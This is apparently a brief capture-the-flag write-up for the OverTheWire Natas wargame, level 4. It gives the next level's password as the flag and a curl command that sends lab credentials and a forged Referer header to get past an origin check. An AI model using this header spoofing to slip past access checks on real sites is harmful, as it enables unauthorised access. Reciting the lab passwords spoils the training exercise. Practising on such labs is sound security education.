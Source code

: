 # Flag
natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

The site checks for location origin of the request. We need to exploit HTTP request forging to change our origin.

curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer "http://natas5.natas.labs.overthewire.org/" "http://natas4.natas.labs.overthewire.org/"